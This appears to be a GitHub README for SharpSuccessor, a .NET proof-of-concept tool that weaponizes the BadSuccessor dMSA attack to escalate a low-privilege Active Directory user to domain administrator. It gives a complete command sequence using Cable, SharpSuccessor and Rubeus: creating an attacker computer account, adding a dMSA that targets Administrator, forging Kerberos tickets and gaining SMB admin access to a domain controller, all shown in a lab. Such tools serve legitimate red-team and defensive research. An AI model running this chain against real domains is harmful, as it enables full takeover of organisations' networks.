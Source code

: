 # SharpSuccessor

SharpSuccessor is a .NET Proof of Concept (POC) for fully weaponizing Yuval Gordon’s ([@YuG0rd](https://x.com/YuG0rd)) [BadSuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory) attack from Akamai. A low privilege user with `CreateChild` permissions over any Organizational Unit (OU) in the Active Directory domain can escalate privileges to domain administrator.

From low-privilege user context, first create a computer object with a tool such as [Cable](https://github.com/logangoins/Cable):
```
Cable.exe computer /add /name:attacker_computer /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/7c2293bb-bbc3-46dd-bfbb-63b2a59e5766)

Then use SharpSuccessor to add and weaponize the dMSA object:
```
SharpSuccessor.exe add /target:Administrator /path:"ou=test,dc=lab,dc=lan" /computer:attacker_computer$ /name:attacker_dMSA
```
![image](https://github.com/user-attachments/assets/294efe2a-3fe0-496e-89e7-bff7e3ed8e36)

Finally use the previously created computer account to request a ticket as the dMSA. First requesting a TGT for the computer account:

```
Rubeus.exe asktgt /user:attacker_computer$ /password:P@ssw0rd /enctype:aes256 /opsec /nowrap
```
![image](https://github.com/user-attachments/assets/2adf8327-dcbd-4d7b-a781-e2a95946c8fb)

Then use that tgt to impersonate the dMSA account:
```
Rubeus.exe asktgs /targetuser:attacker_dmsa$ /service:krbtgt/lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIF0DCCBcy...
```
![image](https://github.com/user-attachments/assets/7ee8cac1-70d3-40fb-85c3-740b86761ffb)

Now you can request a service ticket with Administrator context for any SPN, including the Domain Controllers for post-exploitation. For example here I will show admin privileges for SMB on the domain controller:

```
Rubeus.exe asktgs /user:attacker_dmsa$ /service:cifs/WIN-RAEAN26UGJ5.lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIF2DCCBdS...
```
![image](https://github.com/user-attachments/assets/f4799c6d-ef21-4fbc-af2d-2fd900545937)

Now that we have the ticket in memory, we can test access:

![image](https://github.com/user-attachments/assets/6838bb98-5b7a-406a-a889-9e9236a3428f)

## Assistance and Inspirations
Massive thanks to [Jim Sykora](https://github.com/JimSycurity) and [Garrett Foster](https://x.com/unsigned_sh0rt) for the inspirations and assistance for this tool!
